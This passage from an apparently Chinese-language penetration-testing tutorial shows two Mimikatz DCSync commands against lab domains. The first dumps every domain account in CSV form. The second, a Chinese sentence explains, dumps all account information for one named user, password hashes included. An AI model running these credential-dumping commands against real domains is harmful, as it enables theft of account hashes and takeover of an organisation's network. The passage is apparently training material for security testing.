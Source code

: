 ```bash
lsadump::dcsync /domain:aptlab.com /all /csv
```

![](assets/1710388326-b311a1f8f7b0fbf1ad68b273cc208047.png)

通过使用 /user 参数指定域用户名 Mimikatz 会将该指定用户的所有帐户信息转储包括哈希值。

```bash
lsadump::dcsync /domain:pentestlab.local /user:test
```

![](assets/1710388326-1440b2812c725208955f0e1a972b1d11.png)
